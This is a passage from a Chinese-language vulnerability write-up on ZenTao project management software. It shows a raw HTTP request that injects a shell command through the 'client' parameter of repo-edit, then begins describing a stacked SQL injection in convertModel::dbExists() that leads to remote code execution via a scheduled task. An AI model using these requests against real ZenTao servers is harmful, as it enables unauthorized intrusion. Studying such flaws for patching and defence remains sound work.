 - 执行命令

```http
POST /zentao/repo-edit-10000-10000.html HTTP/1.1
Host: x.x.x.x
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: zentaosid=d53959592d07ca9e6e0bf25ef479a0c2; lang=zh-cn; device=desktop; theme=default
Connection: close
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://10.211.55.12/repo-edit-1-0.html
Content-Length: 30

SCM=Subversion&client=`id`
```

### 3.3 验证码session获取+convert-importNotice SQL堆叠注入+定时任务RCE

除了命令注入，禅道因为使用pdo方式执行mysql语句，允许多条语句执行，并且虽然有链式操作进行增删改查等，但仍然存在直接拼接参数到sql语句中然后直接执行的地方，所以获取权限后也可以通过sql注入RCE。通过搜索php拼接的方式可以找到很多直接拼接的sql语句，其中`convertModel::dbExists()`方法$dbName直接拼接的。

```php
public function dbExists($dbName = '')
    {
        $sql = "SHOW DATABASES like '{$dbName}'";
        return $this->dbh->query($sql)->fetch();
    }
```

回溯dbExists方法被调用的地方，在convert::importNotice()调用且没有对外部数据进行过滤：

![zentao7.png](./images/zentao7.png)
